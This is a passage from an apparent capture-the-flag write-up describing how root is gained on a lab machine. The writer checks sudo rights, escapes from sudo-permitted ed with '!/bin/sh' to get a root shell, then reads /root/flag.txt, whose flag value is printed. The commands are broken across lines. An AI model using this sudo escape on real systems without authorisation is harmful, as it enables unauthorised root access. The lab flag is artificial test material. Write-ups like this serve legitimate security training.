

4.2 Get root (Second flag)
a) Check whether which file has sudo permissions.
$sudo
-l
$sudo
/
usr
/
bin
/
ed
Output:

b) Execute “! /bin/sh” command and we will get the root access.
!
/
bin
/sh
b) Go to “root” directory and list it.
# cd /root
# ls
Output:
flag.txt ftp server.sh
c) Get the flag.
# cat flag.txt
Output:
25d7ce0ee3cbf71efbac61f85d0c14fe
You got the second flag.
Index